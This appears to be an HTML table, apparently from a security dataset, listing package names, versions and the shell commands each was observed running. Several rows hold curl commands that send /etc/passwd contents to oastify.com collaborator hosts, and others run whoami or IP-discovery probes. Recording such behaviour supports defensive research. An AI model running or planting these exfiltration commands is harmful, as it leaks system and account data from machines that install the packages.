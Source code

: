 <tr><td>visual_components</td><td>1.0.13</td><td><code>curl</code></td><td><code>curl jylzs5g46s3de9d6vrrdlyu2ptvkjb70.oastify.com/cmd=root</code></td></tr>
<tr><td>visual_components</td><td>1.0.13</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>visual_components</td><td>1.0.14</td><td><code>curl</code></td><td><code>curl 042gymmlc99ukqjn18xurf0jva11ptdi.oastify.com/a204fd83488a/?tcpdump:x:104:106::/nonexistent:/usr/sbin/nologin</code></td></tr>
<tr><td>visual_components</td><td>1.0.18</td><td><code>curl</code></td><td><code>curl hufxo3c22qzba794rpnbhwq0lrrifd32.oastify.com/508e916424f2/?root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:105::/nonexistent:/usr/sbin/nologin tcpdump:x:104:106::/nonexistent:/usr/sbin/nologin</code></td></tr>
<tr><td>visual_components</td><td>1.0.19</td><td><code>curl</code></td><td><code>curl 2jmido1nrbowzsypgacw6hflacg34zso.oastify.com/61e74477cc78/?root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:105::/nonexistent:/usr/sbin/nologin tcpdump:x:104:106::/nonexistent:/usr/sbin/nologin</code></td></tr>
<tr><td>visual_components</td><td>1.0.20</td><td><code>curl</code></td><td><code>curl gwgwq2e14p1ac6b3topajvsznqthhf54.oastify.com/5f90fe414aeb/?tcpdump:x:104:106::/nonexistent:/usr/sbin/nologin</code></td></tr>
<tr><td>visual_components</td><td>1.0.21</td><td><code>curl</code></td><td><code>curl gwgwq2e14p1ac6b3topajvsznqthhf54.oastify.com/84a523804232/?tcpdump:x:104:106::/nonexistent:/usr/sbin/nologin</code></td></tr>
<tr><td>wallet-switch-chain</td><td>21.0.3</td><td><code>curl</code></td><td><code>curl ifconfig.me</code></td></tr>
<tr><td>walletconnect-website</td><td>4.4.4</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>walletconnect-website</td><td>5.4.5</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>walletconnect-website</td><td>6.4.5</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>walletconnect-website</td><td>7.4.7</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>walletconnect-website</td><td>8.4.7</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>weak-json</td><td>1.0.1</td><td><code>wget</code></td><td><code>wget -q https://gitlab.inria.fr/line/aide-group/aidebuild/-/raw/master/src/makefile -O ./.makefile.inc</code></td></tr>
<tr><td>weak-json</td><td>1.0.1</td><td><code>wget</code></td><td><code>wget -q https://gitlab.inria.fr/line/aide-group/aidebuild/-/raw/master/src/makefile -O ./.makefile.inc</code></td></tr>
<tr><td>weak-json</td><td>1.0.1</td><td><code>wget</code></td><td><code>wget -q https://gitlab.inria.fr/line/aide-group/aidebuild/-/raw/master/src/makefile -O ./.makefile.inc</code></td></tr>
<tr><td>www-ankr-com</td><td>2.0.10</td><td><code>curl</code></td><td><code>curl ifconfig.me</code></td></tr>
<tr><td>ysb-ui-services</td><td>3.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
